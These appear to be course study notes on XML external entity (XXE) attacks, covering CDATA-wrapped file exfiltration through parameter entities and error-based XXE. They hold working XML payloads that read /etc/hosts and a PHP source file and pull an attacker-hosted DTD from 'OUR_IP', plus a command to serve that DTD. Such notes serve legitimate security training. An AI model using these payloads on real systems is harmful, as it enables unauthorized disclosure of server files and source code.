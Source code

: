 ## Advanced Exfiltration with CDATA
* We can utilize another method to extract any kind of data (including binary data) for any web application backend
* To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`)
* Define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`
* Then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

* However, `this will not work, since XML prevents joining internal and external entities`
* We can utilize `XML Parameter Entities`
* A special type of entity that starts with a `%` character and can only be used within the DTD
* If we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined

```xml
<!ENTITY joined "%begin;%file;%end;">
```

* So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application

```sh
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Reference our external entity (`xxe.dtd`) and then print the `&joined;`

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

## Error Based XXE
* Web application might not write any output
	* Cannot control any of the XML input entities to write its content
	* `Blind` to XML output
* If application displays runtime errors (e.g. PHP errors)
* If the web application neither writes XML output nor displays any errors, we would face a completely blind situation
* First try to send malformed XML data, see if errors occur
	* Delete closing tag
	* Change one of the tags (e.g. `<roo>` instead of `<root>`)
	* Reference a non-existing entity

![](./Screenshots/web_attacks_xxe_cause_error.jpg)

* Error revealed a web server directory, which we can use to read the source code of other files
* Host a DTD file that contains the following payload

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

* We define the `file` parameter entity and then join it with an entity that does not exist
	* In this case, `%nonExistingEntity;` does not exist
	* Web application throws an error saying that this entity does not exist
	* Also prints our joined `%file;` as part of the error
* There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file
* Call our external DTD script, and then reference the `error` entity

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

![](./Screenshots/web_attacks_xxe_exfil_error_2.jpg)

* We can also read the source code of files by changing the DTD to  `"file:///var/www/html/submitDetails.php"`
*  `This method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it